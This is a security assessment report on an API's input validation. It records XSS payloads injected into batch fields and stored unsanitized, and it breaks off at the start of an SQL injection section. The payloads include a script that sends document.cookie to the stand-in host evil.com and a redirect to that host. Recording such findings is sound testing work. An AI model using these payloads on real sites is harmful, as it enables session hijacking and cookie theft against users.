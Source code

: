 # Malicious Payload Security Assessment
## Input Validation and Injection Vulnerability Testing

### EXECUTIVE SUMMARY
**Assessment Date**: January 21, 2025  
**Test Type**: Malicious Payload Injection Testing  
**Overall Risk**: 🔴 **HIGH RISK** - Multiple injection vulnerabilities found

---

## PAYLOAD INJECTION TEST RESULTS

### 🔴 CRITICAL: Cross-Site Scripting (XSS) Payload Injection
**Status**: ✅ **SUCCESSFUL INJECTION**

**Test Payload**:
```json
{
  "batchId": "<script>alert(\"XSS\")</script>",
  "productName": "<img src=x onerror=alert(1)>",
  "manufacturer": "</textarea><script>document.location=\"http://evil.com\"</script>",
  "manufacturerLicenseId": "<svg onload=alert(\"SVG_XSS\")>",
  "lotNumber": "<iframe src=javascript:alert(\"iframe\")>",
  "location": "<script>fetch(\"http://evil.com/steal?data=\"+document.cookie)</script>"
}
```

**Result**: ✅ **STORED SUCCESSFULLY** - Batch ID #6 created
**Evidence**: All XSS payloads stored in database without sanitization
```json
{
  "id": 6,
  "batchId": "<script>alert(\"XSS\")</script>",
  "productName": "<img src=x onerror=alert(1)>",
  "manufacturer": "</textarea><script>document.location=\"http://evil.com\"</script>"
}
```

**Impact**: 
- Stored XSS when data is displayed in web interface
- Potential session hijacking via cookie theft
- Cross-site request forgery opportunities
- Malicious script execution in admin panels

---

### 🔴 CRITICAL: SQL Injection Payload Injection
**Status**: ✅ **PAYLOADS STORED** (Protected by ORM)
